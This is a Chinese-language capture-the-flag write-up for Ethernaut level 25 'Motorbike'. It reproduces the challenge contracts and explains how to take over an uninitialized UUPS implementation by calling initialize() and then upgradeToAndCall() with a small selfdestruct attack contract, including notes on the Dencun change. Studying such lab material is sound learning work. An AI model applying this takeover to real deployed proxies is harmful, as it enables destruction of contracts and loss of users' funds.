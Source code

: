 ## Level_25.Motorbike

要求：

> 销毁引擎；

合约：

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

### 分析

该题目使用了代理模式的EIP-1967，在代理合约的指定slot存放逻辑合约、Beacon合约等，导致了slot的碰撞几乎不可能；

![image-20250216200401724](./assets/image-20250216200401724.png)

所以` Motorbike `合约很难下手（没啥方法来改动` _IMPLEMENTATION_SLOT `）；

接下来看看` Engine `合约，其继承了` Initializable `，大概意思就是有两个bool类型的状态变量确保` initialize()-设置马力和升级者 `只能执行一次；

但是这边有slot碰撞：

` Engine `有两个slot，slot0存放address类型，slot1存放uint256类型；

` Initializable `有一个slot，slot0中存放两个bool类型，均是检测是否已经初始化；

也就是说，要是` Engine `的slot0中的最右边两个比特均为0，那就可以利用我们自己的钱包再初始化一次；

![image-20250218003824162](./assets/image-20250218003824162.png)

果然是0，那后面就简单了，调用` initialize() `将我们自己设置为升级者，然后调用` upgradeToAndCall() `替换我们自己实现的销毁合约并执行即可；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Exp {
    function Attack() public {
        selfdestruct(payable(msg.sender));
    }
    // 注释即可，用来算calldata的
    // 0xf28adc4d
    function getHash() public pure returns (bytes memory){
        return abi.encodeWithSignature("Attack()");
    }
}
```

首先初始化：

![image-20250218005504283](./assets/image-20250218005504283.png)

销毁合约：

![image-20250218005643590](./assets/image-20250218005643590.png)

但此时提交会失败，查看交易记录却显示调用了销毁，但是合约还在：

![image-20250218233546819](./assets/image-20250218233546819.png)

![image-20250218233559678](./assets/image-20250218233559678.png)

经过[搜索](https://github.com/Ching367436/ethernaut-motorbike-solution-after-decun-upgrade/)，是以太坊经过Dencun升级后，调用` selfdestruct() `仅会转走ETH，不会销毁合约，**除非合约的创建和销毁在同一条交易记录中**；

解决的方法总结下来就是通过计算instance合约创建的地址，然后通过自动化题目创建、代理合约创建、攻击、销毁、提交题目一条龙（由于这并不是本题的主要目的，且之前题目有过如何计算合约创建地址，就不演示了）；

